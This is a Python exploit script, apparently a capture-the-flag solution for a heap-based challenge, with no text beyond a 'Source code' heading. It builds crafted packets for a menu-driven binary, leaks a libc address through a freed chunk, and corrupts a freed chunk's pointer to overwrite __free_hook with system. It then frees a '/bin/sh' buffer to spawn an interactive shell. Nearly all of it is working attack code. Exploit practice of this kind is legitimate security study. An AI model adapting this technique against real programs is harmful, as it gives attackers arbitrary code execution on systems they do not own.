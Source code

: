 ```python


def pack_str(content: bytes):
    return b'\xBD' + len(content).to_bytes(1,'little') + content


def payload(cmd: int, idx: int, size: int = 0x20, content: bytes = b'A'*0x20) -> bytes:
    payload = b'\xB9\x05'
    payload += cmd.to_bytes(1, 'little')
    payload += b'\x82' + p32(idx) + b'\x82' + p32(size)
    payload += pack_str(content)
    payload += b'\x00'
    return payload


def send_packet(content: bytes):
    sh.sendlineafter(b'Packet length: ', str(len(content)).encode())
    sh.sendafter(b'Content: ', content)


def add(idx: int, size: int):
    send_packet(payload(0, idx, size))


def show(idx: int):
    send_packet(payload(1, idx))


def delete(idx: int):
    send_packet(payload(2, idx))


def edit(idx: int, content: bytes):
    send_packet(payload(3, idx, 0, content))
    

add(0, 0x580)  # 0
add(1, 0x10)  # 1
delete(0)
add(2, 0x10)  # 2
show(2)

libc_base = u64(sh.recv(6).ljust(8,b'\x00')) - 0x3ec0f0
print("libc_base >>> ", hex(libc_base))

free_hook_addr = libc_base + libc.sym['__free_hook']
system_addr = libc_base + libc.sym['system']

add(3, 0x20)  # 3
add(4, 0x20)  # 4
add(5, 0x20)  # 5
delete(4)
edit(3, p64(0)*5+p64(0x31)+p64(free_hook_addr))
add(6, 0x20)  # 6
add(7, 0x20)  # 7 <- free_hook
# gdb.attach(sh, 'b *$rebase(0x2982)\n' + 'x/20gx $rebase(0x205400)')
# pause()
edit(6, b'/bin/sh\x00')
edit(7, p64(system_addr))
delete(6)

sh.interactive()

```
